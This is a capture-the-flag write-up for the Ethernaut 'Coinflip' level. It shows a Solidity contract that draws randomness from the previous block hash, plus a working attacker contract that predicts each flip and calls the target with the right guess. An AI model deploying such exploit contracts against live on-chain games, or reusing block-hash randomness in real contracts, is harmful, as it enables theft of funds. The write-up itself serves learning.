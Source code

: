 # [3. Coinflip](https://ethernaut.openzeppelin.com/level/0x4dF32584890A0026e56f7535d0f2C6486753624f)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

In this attack, we will guess the supposed "random" flips by calling the attack from our contracts. The target contract is programmed to flip a coin on each block, so each guess we make must be on different blocks.

We can simply copy and paste their `flip` function in our contract, and then call their actual `flip` function based on the result. Here is our attacking contract with a `psychicFlip` function that always guesses correctly:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol";

// interface for target
interface CoinFlip {
  function flip(bool _guess) external returns (bool);
}

contract Attacker {
  CoinFlip coinflipTarget;
  using SafeMath for uint256; 

  constructor(address _target) {
    coinflipTarget = CoinFlip(_target);
  }

  function psychicFlip() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(57896044618658097711785492504343953926634992332820282019728792003956564819968);
    bool side = coinFlip == 1 ? true : false;
    
    bool result = coinflipTarget.flip(side);
    require(result, "Could not guess, abort mission.");
  }
}
```

That is pretty much it!
